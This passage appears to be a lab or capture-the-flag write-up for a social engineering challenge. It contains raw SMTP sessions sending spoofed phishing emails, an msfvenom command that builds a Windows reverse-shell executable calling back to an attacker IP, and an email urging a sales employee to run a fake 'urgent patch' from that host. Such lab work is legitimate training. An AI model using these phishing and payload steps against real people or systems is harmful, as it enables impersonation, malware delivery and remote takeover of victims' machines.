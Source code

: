 ```bash
250 2.1.5 lhale@victim 
DATA
354 Start mail input; end with <CRLF>.<CRLF>
From: [Tony Harper]<tharper@victim>
To: [Layla Hale]<lhale@victim> 
Date: Tue, 03 Jan 2023 09:14:25 -0500
Subject: job application

Hi,
This is my resume http://192.168.119.168/fingerprint
Regards,
Harper
.
250 2.6.0 <VICTIMKen7DlMxmXyM400000002@VICTIM> Queued mail for delivery
```


5.  On the target VM #2 enumerate the victim's company website and identify employees working in IT and Sales departments. The objective of this challenge is to mount a social engineering attack against the person in sales. The victim machine is running an SMTP server that can be used to send company emails. The SMTP server allows anonymous logins. Research how to interact with the SMTP server using Netcat. Then, send a phishing email from the IT person to the employee in sales that contains keywords "urgent" and "patch". Create and host a Windows PE payload (_.exe_ executable) and include a link to it in the email body. If your email is sent as instructed, the victim user will open it, click on the link, download the malicious executable, and run it. Once you have obtained a reverse shell, retrieve the flag located on the Administrator user's desktop.
- http://192.168.168.55:8080
- Tony Harper, tharper@victim, Sales and Contracts
- Ross Murray, rmurray@victim, IT Support
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.168 LPORT=5566 -f exe > shell-x64.exe`
```
HELO 192.168.168.55
MAIL FROM:<rmurray@victim>
RCPT TO:<tharper@victim>
DATA
From: [Ross Murray]<rmurray@victim>
To: [Tony Harper]<tharper@victim> 
Date: Thu, 05 Jan 2023 09:56:31 -0500
Subject: urgent patch required

Hi,
Please download and run this urgent patch: http://192.168.119.168/reverse-shell/shell-x86.exe
Regards,
Ross Murray
.
```